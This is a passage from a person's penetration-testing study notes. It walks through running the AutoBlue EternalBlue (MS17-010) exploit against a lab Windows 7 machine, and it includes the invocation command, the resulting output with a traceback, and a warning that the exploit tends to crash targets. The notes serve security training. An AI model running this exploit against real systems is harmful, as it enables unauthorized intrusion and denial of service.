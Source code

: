 #### Exploit
Once it's setup and you see the msfconsole, open another terminal, cd into the repo dir and run `python eternalblue_exploit7.py <target IP> shellcode/sc_all.bin`
```bash
eternalblue_exploit7.py 10.0.2.6 shellcode/sc_all.bin        
shellcode size: 2307
numGroomConn: 13
Target OS: Windows 7 Ultimate 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/impacket/nmb.py", line 984, in non_polling_read
    received = self._sock.recv(bytes_left)
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^
TimeoutError: timed out

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/home/hakcypuppy/blue/AutoBlue-MS17-010/eternalblue_exploit7.py", line 563, in <module>
   exploit(TARGET, s...
```
What will likely happen is *this will crash your target machine*:
![](nested-repos/PNPT-study-guide/PNPT-pics/blue-3.png)
![](/PNPT-pics/blue-3.png)
This exploit is *volatile* because it's a [buffer-overflow](cybersecurity/TTPs/exploitation/binary-exploitation/buffer-overflow.md), and will commonly cause a target to crash. **DON'T USE THIS AGAINST CRITICAL INFRASTRUCTURE** such as targets in hospitals, etc..

> [!Resources]
> - [ExploitDB: ID 42031](https://www.exploit-db.com/exploits/42031)
> - [3ndG4me: AutoBlue GitHub repo](https://github.com/3ndG4me/AutoBlue-MS17-010)

> [!My previous notes (linked in text)]
> - You'll find them all [here](https://github.com/TrshPuppy/obsidian-notes)

